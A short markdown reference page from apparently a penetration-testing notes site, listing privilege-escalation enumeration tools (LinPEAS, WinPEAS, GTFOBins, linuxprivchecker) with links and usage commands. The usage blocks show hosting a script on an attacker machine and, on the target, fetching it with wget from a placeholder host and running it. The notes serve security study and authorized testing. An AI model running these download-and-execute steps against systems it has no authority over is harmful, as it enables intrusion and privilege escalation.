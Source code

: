 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tools and Utilities

Here we can find some tools and utilities commonly used for practices related to post-exploitation:

## <mark style="color:green;">LinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Linux_/_Unix\*_/_MacOS_ hosts
* [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### <mark style="color:yellow;">Commands</mark>

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install peass
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
linpeas
python3 -m http.server $port #Create server to send file

#Target machine
cd /tmp
wget http://$hostIP:$port/linpeas.sh
bash linpeas.sh
```
{% endcode %}

## <mark style="color:green;">WinPEAS</mark>

* Script that searches for possible paths to escalate privileges on _Windows_ hosts
* [https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

### <mark style="color:yellow;">Commands</mark>

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
python3 -m http.server $port #Create server to send file

#Target machine
wget http://$hostIP:$port/winPEASx64.exe
.\winPEASx64.exe
```
{% endcode %}

## <mark style="color:green;">GTFOBins</mark>

* List of _Unix_ binaries used to bypass local security restrictions in misconfigured systems
* [https://gtfobins.github.io/](https://gtfobins.github.io/)

## <mark style="color:green;">linuxprivchecker</mark>

* Enumerate basic system info and search for common privilege escalation vectors on _Linux_ systems
* [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
